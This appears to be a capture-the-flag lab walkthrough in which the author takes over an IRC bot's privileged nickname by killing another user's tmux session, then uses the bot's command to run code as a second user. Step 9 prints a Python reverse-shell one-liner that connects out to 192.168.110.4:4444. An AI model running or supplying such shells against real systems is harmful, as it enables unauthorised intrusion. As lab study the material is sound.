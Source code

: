 	>Sopel is **a simple, easy-to-use, open-source IRC utility bot, written in Python**. It's designed to be easy to use, easy to run, and easy to extend. Sopel comes with a ton of ready-made features for you to use. It can leave notes for people, give you reminders, and much more.
3. [Sopel commands](https://sopel.chat/usage/commands/), `.help` allows us to list all command's documentation
4. Instead of using `irssi` use `hexchat`(GUI) for easier usage
	1. Setup 
		![](Pasted%20image%2020220312195941.png)
	2. Search for channel (`/list`)
		![](Pasted%20image%2020220312203454.png)
	3. Join channel (`/join #wallabyschat`)
	4. List all wallabysbot commands (`.help`)
		![](Pasted%20image%2020220312203935.png)
	5. Execute `.run`
		![](Pasted%20image%2020220312204125.png)
		- We must be waldo in order to execute `.run`
	6. We are not able to change our nickname to `waldo` using an IRC command (`/nick waldo`),  since a user called waldo already exists
		![](Pasted%20image%2020220312204550.png)
		- waldo exists, waldo is somehow connected to the IRC server
5. There is a `irssi.sh` file that exists on waldo's home directory
	``` 
	waldo@ubuntu:~$ ls
	irssi.sh
	waldo@ubuntu:~$ cat irssi.sh 
	#!/bin/bash
	tmux new-session -d -s irssi
	tmux send-keys -t irssi 'n' Enter
	tmux send-keys -t irssi 'irssi' Enter
	waldo@ubuntu:~$ 
	```
	- There is a tmux session that is connected to the irc server
6. Kill the tmux session
	``` 
	waldo@ubuntu:~$ ps aux | grep tmux
	waldo      720  0.0  0.2  29416  2972 ?        Ss   07:24   0:00 tmux new-session -d -s irssi
	
	waldo@ubuntu:~$ pkill -9 tmux
	```
	![](Pasted%20image%2020220312204915.png)
7. Change nickname to waldo (`/nick waldo`)
	![](Pasted%20image%2020220312205010.png)
8. Execute `.run`
	![](Pasted%20image%2020220312205108.png)
	- Able to execute commands as wallaby
9. Obtain a wallaby shell
	``` 
	python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("192.168.110.4",4444));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
	```
	![](Pasted%20image%2020220312205300.png)
10. wallaby shell obtained
	![](Pasted%20image%2020220312205327.png)
	